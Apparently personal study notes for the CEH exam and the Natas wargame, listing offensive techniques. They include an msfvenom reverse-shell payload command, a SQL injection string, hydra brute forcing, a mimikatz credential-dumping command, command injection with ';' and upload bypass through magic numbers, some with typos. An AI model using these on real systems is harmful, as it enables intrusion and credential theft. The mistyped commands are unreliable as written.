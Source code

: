 # CEH
## Commands tips
use `traceroute` for getting we pass what routers to get to network.
## Websites and application tips
> this [site](https://www.iplocation.net/) says the ip is for where, and this [site](who.is) says who create this website.

> for getting special file type in google add `filetype:[type]` after **website domain** and add `site:` before it.
>
> use `maltego` to get datas from a website.

## ip spoofing
ip spoofing means you stealing ip when some ips have access.
we use **nmap** for scaning ports. use it like this:
```console
nmap [ip address] [option] [port]
```
for example for scaning port 80 in specific ip, do like this
```console
nmap 192.168.1.6 -Pn -p 80
```
for changing ip with nmap do this:
```console
nmap -S [new ip] -Pn -p [port] -e [interface] [ip target]
```
## ICMP
### Ping
ping means ip can you here me?
type **one** *successed*
```console
ping 4.2.2.4
# reply from 4.2.2.4: bytes=32 time=30ms TTL=46
```
type **two** *request timed out*: it means somewhere we have problem but we don't know where
```console
ping 4.2.2.4
# request timed out
```
type **three** *destination host unreachable*: you must focus on ***reply from*** destination after that ip is down but may be
```console
ping 4.2.2.4
# reply from 4.2.2.8: destination host unreachable
```
type **four** *destination net unreachable*: it means you don't have access to that network
```console
ping 4.2.24
# reply from 192.168.1.1: destination net unreachable
```
type **five** *admin prohibited*: means admin says don't give access to you
```console
ping 4.2.2.4
# reply from 4.2.2.8: communication with administer prohibited
```
### msfvenom
**msfvenom** use for making a file to add upload as payload.
```console
msfvenom -p windows/meterpreter/reverce_tcp -f war > file.war
```
in here after `-p` we must add our platform and payload type and after `-f` add format and after `>` name the file.

for changing process you can use `migrate`.
with `python3 -m http.srever [port]` you can make a server in your directory
for social engineering you can use `setoolkit` but remember you must be **root**.
for remoting desktop you must use `seth`. you can clone it from [here](https://github.com/SySS-Research/Seth)
### sql
for getting username in sql use `' or 1=1;--`
you can use `sqlmap` for checking database

# burt force
check many passwords to get password. we use `hydra`
```console
hydra -l [user] -P [password_list] protocol://ip
```
we have a password list in kali in `/user/share/rockyou.txt/`

with `load kiwi` and then use this code you can get some passwords that's are in ram as a clear text.
```console
kiwi_cmd sekurlsa::logonpasswords
```

for cracking hash, we can use ophcrack. and get the tables of it from its [website](https://ophcrack.sourceforge.io/tables.php)
# Natas
1- checking directory of website
2- check the robots.txt
> robots.txt is a file that says to **search engine** to what to do

3- whenever we don't have access except an specific adress we can make link on that adress
4- sometimes you need to change the cookies for example log in
5- with `curl` you can get access to some parts of website
6- you can see a page after `?page=`
7- when we have **command** in codes you can seprate command with `;`
8- with grep you can add -r for searching in directory
> we know grep use regex

9- sometimes you must change some cookies for access
10- if you can upload a file, you can change the format and run what you want...(use burpsuit)
11- magic number is a part of your file that shows what type is it. you can add magic number to  the first of your php file to access to uploading it. you can change magic number with `hexeditor`.
